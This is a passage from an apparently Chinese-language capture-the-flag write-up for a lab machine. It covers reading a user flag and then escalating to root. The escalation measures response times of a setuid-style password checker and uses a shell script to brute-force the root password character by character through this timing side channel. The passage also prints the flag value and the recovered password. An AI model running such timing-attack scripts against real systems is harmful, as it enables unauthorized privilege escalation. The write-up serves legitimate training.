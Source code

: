 登录后，在 `/home/red/` 目录下发现 `user.txt` 文件，并成功读取第一个 flag。

```bash
black@Tea:~$ cat /home/red/user.txt
flag{user-9667c39f-4203-11f0-9e29-000c2955ba04}
```

# **三、权限提升**

## **垂直提升：black -> root**

在 `/opt` 目录下发现一个名为 `check_root_passwd` 的可执行文件。

```bash
black@Tea:~$ ls -al /opt
-rwx--x--x 1 root root 16808 Jun 5 08:07 check_root_passwd
```

执行该程序并提供任意输入，均返回 "Password error"。通过 `time` 命令测试发现，输入特定长度（10位）时，程序的执行时间有显著延迟，这表明存在时间侧信道攻击的可能性。

```bash
black@Tea:/opt$ for len in {1..12}; do inp=$(printf 'a%.0s' $(seq 1 $len)); printf "Len:%2d -> " $len; (time ./check_root_passwd "$inp" > /dev/null 2>&1) 2>&1 | grep -o 'real.*'; done
Len: 1 -> real    0m0.000s
...
Len: 9 -> real    0m0.000s
Len:10 -> real    0m0.201s
Len:11 -> real    0m0.000s
Len:12 -> real    0m0.000s
```

基于此发现，可以编写脚本逐位爆破密码。其原理是：程序逐字符比较输入与真实密码，每正确一位，比较时间就会稍长一些。通过测量每个字符的响应时间，可以确定正确的密码。

使用以下 Shell 脚本进行爆破：（这脚本ai写的，巨慢）

```bash
P=""
for p in {0..9}; do
    LOG=/tmp/log.$p
    for c in {a..z}; do
        inp=$(printf "%-10s" "$P$c" | tr ' ' a | cut -c1-10)
        t=$( { time /opt/check_root_passwd "$inp" >/dev/null 2>&1; } 2>&1 | grep real | awk -F'm' '{gsub(/s/,"",$2); print $2}' )
        echo "$c $t" >> $LOG
    done
    B=$(sort -k2 -nr $LOG | head -1 | awk '{print $1}')
    P+="$B"
    echo "p$p: $B | total: $P"
done
echo "$P"
```

经过爆破，得到 root 密码为 `toddzhennb`。

# **四、夺取旗帜**
